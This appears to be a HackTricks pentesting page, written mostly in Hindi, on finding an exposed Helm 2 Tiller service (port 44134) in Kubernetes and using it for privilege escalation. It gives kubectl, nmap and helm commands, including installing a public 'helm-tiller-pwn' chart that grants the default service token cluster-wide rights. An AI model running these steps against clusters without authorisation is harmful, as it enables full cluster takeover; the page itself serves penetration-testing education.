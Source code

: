 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


# मूल जानकारी

Helm **पैकेज प्रबंधक** है Kubernetes के लिए। यह YAML फ़ाइलों को पैकेज करने और उन्हें सार्वजनिक और निजी रिपॉजिटरी में वितरित करने की अनुमति देता है। इन पैकेजों को **Helm Charts** कहा जाता है। **Tiller** वह **सेवा** है जो डिफ़ॉल्ट रूप से पोर्ट 44134 में चल रही है।

**डिफ़ॉल्ट पोर्ट:** 44134
```
PORT      STATE SERVICE VERSION
44134/tcp open  unknown
```
# Enumeration

यदि आप विभिन्न नामस्थान के **पॉड्स और/या सेवाओं को सूचीबद्ध** कर सकते हैं, तो उन्हें सूचीबद्ध करें और उन लोगों की खोज करें जिनके नाम में **"tiller"** है:
```bash
kubectl get pods | grep -i "tiller"
kubectl get services | grep -i "tiller"
kubectl get pods -n kube-system | grep -i "tiller"
kubectl get services -n kube-system | grep -i "tiller"
kubectl get pods -n <namespace> | grep -i "tiller"
kubectl get services -n <namespace> | grep -i "tiller"
```
उदाहरण:
```bash
kubectl get pods -n kube-system
NAME                                       READY   STATUS             RESTARTS   AGE
kube-scheduler-controlplane                1/1     Running            0          35m
tiller-deploy-56b574c76d-l265z             1/1     Running            0          35m

kubectl get services -n kube-system
NAME            TYPE        CLUSTER-IP     EXTERNAL-IP   PORT(S)                  AGE
kube-dns        ClusterIP   10.96.0.10     <none>        53/UDP,53/TCP,9153/TCP   35m
tiller-deploy   ClusterIP   10.98.57.159   <none>        44134/TCP                35m
```
आप इस सेवा को चलाते हुए पोर्ट 44134 की जांच करके भी खोजने की कोशिश कर सकते हैं:
```bash
sudo nmap -sS -p 44134 <IP>
```
एक बार जब आप इसे खोज लेते हैं, तो आप क्लाइंट हेल्म एप्लिकेशन डाउनलोड करके इसके साथ संवाद कर सकते हैं। आप `homebrew` जैसे टूल का उपयोग कर सकते हैं, या [**आधिकारिक रिलीज़ पृष्ठ**](https://github.com/helm/helm/releases)** को देख सकते हैं।** अधिक विवरण के लिए, या अन्य विकल्पों के लिए, [स्थापना गाइड](https://v2.helm.sh/docs/using\_helm/#installing-helm) देखें।

फिर, आप **सेवा की गणना कर सकते हैं**:
```
helm --host tiller-deploy.kube-system:44134 version
```
## Privilege Escalation

डिफ़ॉल्ट रूप से **Helm2** को **namespace kube-system** में **उच्च विशेषाधिकार** के साथ स्थापित किया गया था, इसलिए यदि आप सेवा को खोजते हैं और इसमें पहुंच रखते हैं, तो यह आपको **विशेषाधिकार बढ़ाने** की अनुमति दे सकता है।

आपको बस एक पैकेज स्थापित करने की आवश्यकता है जैसे कि यह: [**https://github.com/Ruil1n/helm-tiller-pwn**](https://github.com/Ruil1n/helm-tiller-pwn) जो **डिफ़ॉल्ट सेवा टोकन को पूरे क्लस्टर में सब कुछ एक्सेस करने की अनुमति देगा।**
```
git clone https://github.com/Ruil1n/helm-tiller-pwn
helm --host tiller-deploy.kube-system:44134 install --name pwnchart helm-tiller-pwn
/pwnchart
```
In [http://rui0.cn/archives/1573](http://rui0.cn/archives/1573) में आपके पास **हमले का विवरण** है, लेकिन मूल रूप से, यदि आप फ़ाइलें [**clusterrole.yaml**](https://github.com/Ruil1n/helm-tiller-pwn/blob/main/pwnchart/templates/clusterrole.yaml) और [**clusterrolebinding.yaml**](https://github.com/Ruil1n/helm-tiller-pwn/blob/main/pwnchart/templates/clusterrolebinding.yaml) _helm-tiller-pwn/pwnchart/templates/_ के अंदर पढ़ते हैं, तो आप देख सकते हैं कि **सभी विशेषाधिकार डिफ़ॉल्ट टोकन को दिए जा रहे हैं**।

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
